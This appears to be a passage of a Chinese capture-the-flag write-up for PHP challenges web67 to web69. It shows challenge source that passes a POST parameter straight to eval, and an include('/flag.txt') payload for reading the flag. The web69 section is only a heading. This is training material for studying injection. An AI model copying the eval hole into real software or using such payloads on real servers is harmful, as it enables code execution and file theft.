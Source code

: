 #### web67

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

这题解法与web66一致

#### web68

![image-20241128234343226](assets/image-20241128234343226.png)

这题貌似只是show_source和highlight_file用不了，其他没什么变化

可以直接用前两题的方法

也可以直接

```
c=include('/flag.txt') //赌
```

#### web69
